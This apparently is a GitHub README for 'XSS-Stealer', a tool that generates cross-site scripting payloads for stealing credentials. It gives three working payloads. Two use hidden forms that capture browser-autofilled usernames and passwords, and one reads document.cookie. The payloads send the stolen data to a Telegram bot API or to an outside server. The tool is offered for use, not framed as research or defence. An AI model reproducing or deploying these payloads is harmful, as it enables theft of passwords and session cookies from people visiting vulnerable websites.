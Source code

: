 # XSS-Stealer

Simple utility to generate XSS-based stealers.

## Usage

Install requirements:

```shell
pip install -r requirements.txt
```

Run:

```shell
python -m stealer
```

## Examples

### Passwords-Telegram

Steals the password using form autofill and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/passwords_telegram.png" alt="passwords-telegram">
</p>


**Result code:**

```js
<form style="display: none" onchange="fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${this.u.value};${this.p.value}&chat_id=123123123`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

### Cookies-Telegram

Steals the cookies and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/cookies_telegram.png" alt="cookies-telegram">
</p>


**Result code:**

```js
<script>fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${document.cookie}&chat_id=123123123`)</script>
```

### Passwords-Server

Steals the password using form autofill and sends it to the Server.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/passwords_server.png" alt="cookies-telegram">
</p>

```js
<form style="display: none" onchange="fetch(`https://example.com?c=${this.u.value};${this.p.value}`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

## Licence

XSS-Stealer is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.